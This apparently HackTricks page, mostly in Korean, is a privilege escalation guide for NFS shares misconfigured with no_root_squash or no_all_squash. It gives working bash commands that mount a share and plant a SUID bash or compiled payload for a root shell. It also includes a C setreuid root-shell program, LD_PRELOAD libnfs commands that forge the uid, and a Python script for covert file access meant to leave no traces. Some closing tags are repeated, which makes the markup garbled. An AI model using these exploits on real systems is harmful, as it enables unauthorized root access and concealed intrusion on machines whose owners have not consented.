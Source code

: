 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


_read the_ **/etc/exports** _파일을 읽어보세요. 만약 **no\_root\_squash**로 설정된 디렉토리를 찾으면, 클라이언트로서 해당 디렉토리에 **접근**하고 마치 로컬 **root**인 것처럼 그 안에 **쓰기** 할 수 있습니다._

**no\_root\_squash**: 이 옵션은 기본적으로 클라이언트의 root 사용자에게 NFS 서버의 파일에 root로 접근할 수 있는 권한을 부여합니다. 이는 심각한 보안 문제를 초래할 수 있습니다.

**no\_all\_squash:** 이 옵션은 **no\_root\_squash**와 유사하지만 **비루트 사용자**에게 적용됩니다. 예를 들어, nobody 사용자로 쉘을 가지고 있고, /etc/exports 파일을 확인했으며, no\_all\_squash 옵션이 존재하고, /etc/passwd 파일을 확인한 후 비루트 사용자를 에뮬레이트하고, 해당 사용자로 suid 파일을 생성한 후(nfs를 사용하여 마운트) nobody 사용자로 suid를 실행하여 다른 사용자로 변환할 수 있습니다.

# Privilege Escalation

## Remote Exploit

이 취약점을 발견했다면, 이를 악용할 수 있습니다:

* 클라이언트 머신에서 해당 디렉토리를 **마운트**하고, **root로** 마운트된 폴더 안에 **/bin/bash** 바이너리를 복사한 후 **SUID** 권한을 부여하고, 피해자 머신에서 그 bash 바이너리를 **실행**합니다.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **클라이언트 머신에서 해당 디렉토리를 마운트**하고, **루트로 복사**하여 마운트된 폴더 안에 SUID 권한을 악용할 컴파일된 페이로드를 넣고, **희생자** 머신에서 해당 바이너리를 **실행**합니다 (여기에서 일부 [C SUID 페이로드](payloads-to-execute.md#c)를 찾을 수 있습니다).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
Note that if you can create a **tunnel from your machine to the victim machine you can still use the Remote version to exploit this privilege escalation tunnelling the required ports**.\
다음 트릭은 파일 `/etc/exports` **가 IP를 나타내는 경우**에 해당합니다. 이 경우 **원격 익스플로잇을 사용할 수 없으며** 이 **트릭을 악용해야 합니다**.\
익스플로잇이 작동하기 위한 또 다른 필수 조건은 **`/etc/export` 내의 export가 `insecure` 플래그를 사용해야 한다는 것입니다**.\
\--_나는 `/etc/export`가 IP 주소를 나타내는 경우 이 트릭이 작동할지 확신하지 못합니다_--
{% endhint %}

## Basic Information

이 시나리오는 로컬 머신에서 마운트된 NFS 공유를 악용하는 것으로, 클라이언트가 자신의 uid/gid를 지정할 수 있게 해주는 NFSv3 사양의 결함을 이용하여 무단 접근을 가능하게 합니다. 익스플로잇은 NFS RPC 호출을 위조할 수 있는 라이브러리인 [libnfs](https://github.com/sahlberg/libnfs)를 사용합니다.

### Compiling the Library

라이브러리 컴파일 단계는 커널 버전에 따라 조정이 필요할 수 있습니다. 이 특정 경우에는 fallocate 시스템 호출이 주석 처리되었습니다. 컴파일 과정은 다음 명령어를 포함합니다:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Exploit 수행

이 exploit는 root 권한을 상승시키고 shell을 실행하는 간단한 C 프로그램(`pwn.c`)을 생성하는 것을 포함합니다. 프로그램이 컴파일되고, 결과 이진 파일(`a.out`)이 suid root로 공유에 배치되며, `ld_nfs.so`를 사용하여 RPC 호출에서 uid를 위조합니다:

1. **익스플로잇 코드 컴파일:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **익스플로잇을 공유에 배치하고 uid를 위조하여 권한 수정:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **익스플로잇을 실행하여 root 권한 획득:**
```bash
/mnt/share/a.out
#root
```

## 보너스: NFShell을 통한 은밀한 파일 접근
root 접근이 얻어진 후, 소유권을 변경하지 않고 NFS 공유와 상호작용하기 위해 (흔적을 남기지 않기 위해) Python 스크립트(nfsh.py)가 사용됩니다. 이 스크립트는 접근하는 파일의 uid와 일치하도록 조정하여, 권한 문제 없이 공유의 파일과 상호작용할 수 있게 합니다:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
실행 예:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
